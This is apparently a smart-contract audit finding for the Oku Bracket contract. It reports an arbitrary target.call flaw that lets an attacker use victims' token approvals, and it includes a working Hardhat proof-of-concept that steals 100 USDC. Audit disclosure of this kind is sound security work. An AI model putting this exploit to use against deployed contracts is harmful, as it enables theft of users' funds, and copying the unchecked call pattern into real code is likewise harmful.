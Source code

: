 Digital Coral Stork

High

# execute : target can be any address, including Token. stealing funds

### Summary

In Bracket.sol (and OracleLess.sol) attacker can use different functions to call `execute` with arbitrary `target` and `txData`, which then the contract calls on: `target.call(txData)`. If target is the address of Token, this would allow executing Token logic on behalf of the (calling) contract.

### Root Cause

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L542
```solidity
(bool success, bytes memory result) = target.call(txData);
```

This probably can be exploited in several ways. Let's looks at stealing approved funds. This can be either user funds, or since `StopLimit.sol` contract pre-approves `type(uint256).max` all those funds can be stolen.

The biggest hurdle is the following require:
```solidity
require(
    finalTokenOut - initialTokenOut >
        MASTER.getMinAmountReceived(
            amountIn,
            tokenIn,
            tokenOut,
            bips
        ),
    "Too Little Received"
);
```
Since we can set `bips = 10000` the amount is not important, however the `greater-than` check forces us to increase the `TokenOut` amount after the "swap".

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Victim already approved or plans to use the Bracket contract and calls approve(Bracket, 100); 2 seconds later this tx is visible on L2 chain.

2. Attacker triggers `execute` which calls TokenOut.transferFrom(victim, Bracket, 100). Since the amount was approved, it succeeds.

`finalTokenOut` is now `initialTokenOut + 100`, `swapAmountOut` is `100` and since we didn't spend our tokenIn we also get it refunded.

Contract transfers to us the stolen `swapAmountOut`.

### Impact

Executing logic on behalf contract. Stealing funds.

### PoC

```javascript
// -> happyPath.ts
// -> insert after first/setup describe()

describe("", () => {
    it("execute_target", async () => {

        var amount_to_steal = ethers.parseUnits("100", 6); // 100 usd

        // --- setup victim (Charles)

        await stealMoney(s.usdcWhale, await s.Charles.getAddress(), await s.USDC.getAddress(), amount_to_steal); // mint

        await s.USDC.connect(s.Charles).approve(await s.Bracket.getAddress(), amount_to_steal); // approve allowance for Bracket contract

        expect(await s.USDC.balanceOf(await s.Charles.getAddress())).to.equal(amount_to_steal);

        // --- setup attacker (Steve)

        var one_eth = ethers.parseEther("1.0");

        await stealMoney(s.wethWhale, await s.Steve.getAddress(), await s.WETH.getAddress(), one_eth); // mint

        await s.WETH.connect(s.Steve).approve(await s.Bracket.getAddress(), one_eth); // approve allowance for Bracket contract

        expect(await s.WETH.balanceOf(await s.Steve.getAddress())).to.equal(one_eth);
        expect(await s.USDC.balanceOf(await s.Steve.getAddress())).to.equal(0);

        // --- set some oracle prices

        await s.wethOracle.setPrice(s.initialEthPrice);
        await s.usdcOracle.setPrice(s.initialUsdcPrice);

        // --- execute attack

        // create order
        await s.Bracket.connect(s.Steve).createOrder(
            "0x", // bytes calldata swapPayload,

            0, // uint256 takeProfit,
            0, // uint256 stopPrice,

            one_eth, // uint256 amountIn,

            await s.WETH.getAddress(), // IERC20 tokenIn,
            await s.USDC.getAddress(), // IERC20 tokenOut,

            await s.Steve.getAddress(), // address recipient,

            0, // uint16 feeBips,
            10000, // uint16 takeProfitSlippage,
            10000, // uint16 stopSlippage,
            false, // bool permit,
            "0x", // bytes calldata permitPayload
        );

        var erc20_interface = new ethers.Interface([
          "function transferFrom(address from, address to, uint256 amount)",
        ]);

        var transferFrom_payload = erc20_interface.encodeFunctionData(
            'transferFrom',
            [
                await s.Charles.getAddress(), // victim
                await s.Bracket.getAddress(),
                amount_to_steal
            ]
        );

        var abi = ethers.AbiCoder.defaultAbiCoder();

        var performData = abi.encode(
            ['tuple(uint8,address,address,address,uint96,uint96,uint16,uint256,uint256,bytes)'],
            [[
                0,                              // orderType;

                await s.USDC.getAddress(),      // target; note: only pendingOrderIdx, target, txData are used from payload

                ethers.ZeroAddress,             // tokenIn;
                ethers.ZeroAddress,             // tokenOut;
                0,                              // orderId
                0,                              // pendingOrderIdx
                0,                              // slippage
                0,                              // amountIn
                0,                              // exchangeRate

                transferFrom_payload,           // txData
            ]],
        );

        await s.Bracket.performUpkeep(performData);

        // --- verify

        expect(await s.WETH.balanceOf(await s.Steve.getAddress())).to.equal(one_eth);
        expect(await s.USDC.balanceOf(await s.Steve.getAddress())).to.equal(amount_to_steal); // funds stolen

        expect(await s.WETH.balanceOf(await s.Charles.getAddress())).to.equal(0);
        expect(await s.USDC.balanceOf(await s.Charles.getAddress())).to.equal(0);
    });
});
```

### Mitigation

_No response_